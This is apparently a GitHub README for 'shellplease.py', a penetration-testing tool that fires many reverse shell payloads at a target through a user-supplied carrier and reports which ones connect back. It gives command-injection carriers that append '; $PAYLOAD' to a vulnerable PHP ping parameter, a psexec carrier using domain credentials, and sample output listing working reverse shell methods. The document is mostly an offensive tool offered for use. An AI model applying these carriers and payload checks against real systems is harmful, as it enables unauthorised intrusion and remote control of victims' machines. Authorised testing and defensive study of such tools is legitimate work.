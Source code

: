# Shell? Please?
This tool checks multiple reverse shell payloads usability.
It opens a local tcp port on the attacking machine, similar to `nc -nlvp`,
then sends predefined payloads with a user supplied carrier
and waits for reverse connections.

## Carrier
The user can supply either a script or a command to carry the payload.

### Command Carrier
```sh
# command carrier should use a PAYLOAD env variable as payload
# note: something is not a real command, fool
shellplease.py --command-carrier "something \$PAYLOAD"
shellplease.py -c "something \$PAYLOAD"
```

### Script Carrier
```sh
shellplease.py -s carrier.sh
```
```sh
#!/bin/sh
# carrier.sh

# script carrier should use a positional argument as payload
something $0
```

## Examples
### OS Command Inject via HTTP
Imagine a webpage that executes a shell command with an argument provided by the user
```php
system("ping " . $_GET['ip'])
```

We can use shellplease to see what executables/commands can be used to obtain a reverse shell
```sh
# attacker: 192.168.1.100
# target: 192.168.1.5
shellplease.py -H 192.168.1.100 -c "curl http://192.168.1.5/ -G --data-urlencode \"?ip=x; \$PAYLOAD\""
```

Alternatively, we can use a script to carry the payload
```sh
#!/bin/sh
# carrier.sh
curl "http://192.168.1.5/?ip=x; $0"
```

### Command Execution vis PSExec
Now, imagine you have credentials to some user account in a windows/ad environment.
You could use the following:
```sh
# attacker: 192.168.1.100
# target: 192.168.1.5
shellplease.py --os windows --local-host 192.168.1.100 -c "impacket-psexec DOMAIN/USER:PASS@192.168.1.5 \"\$PAYLOAD\""
```

Sample output:
```
[+] started http server on 192.168.1.100:55067
[+] started tcp listener on 192.168.1.100:34921
[-] ncat.exe -e w/ download over cmd.exe
[-] ncat.exe -e w/ download over powershell.exe
[-] PHP exec
[-] PHP system
[-] PHP `
[-] PHP popen
[-] PHP proc_open
[+] Windows ConPty
```

## Usage
```
usage: shellplease.py [-h] [-H HOST] [-s CARRIER_SCRIPT] [-c CARRIER_COMMAND] [-C CONFIG] [-os {linux,windows,mac}]
                      [-sh REMOTE_SHELL] [-p PORT] [-P HTTP_SERVER_PORT] [-a] [-ct CONNECTION_TIMEOUT] [-et ECHO_TIMEOUT]
                      [-po]

Shell? Please?

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST, --local-host HOST
                        local host (default: )
  -s CARRIER_SCRIPT, --carrier-script CARRIER_SCRIPT
                        shell script that sends the payload to the target, it should use a positional parameter as payload
                        (default: )
  -c CARRIER_COMMAND, --carrier-command CARRIER_COMMAND
                        shell command that sends the payload to the target, it should use a PAYLOAD env variable as payload
                        (default: )
  -C CONFIG, --config CONFIG
                        .json configuration file location (default: config.json)
  -os {linux,windows,mac}, --os {linux,windows,mac}
                        target operating system (default: linux)
  -sh REMOTE_SHELL, --remote-shell REMOTE_SHELL
                        shell to be executed (default: )
  -p PORT, --port PORT, --local-port PORT
                        local port (default: 0)
  -P HTTP_SERVER_PORT, -hp HTTP_SERVER_PORT, --http-server-port HTTP_SERVER_PORT
                        http port to serve assets (default: 0)
  -a, --all             check all payloads (default: False)
  -ct CONNECTION_TIMEOUT, --connection-timeout CONNECTION_TIMEOUT
                        connection accept timeout in seconds (default: 1)
  -et ECHO_TIMEOUT, --echo-timeout ECHO_TIMEOUT
                        echo check timeout in seconds (default: 3)
  -po, --print-only     print paylods only, don't check. (default: False)
```

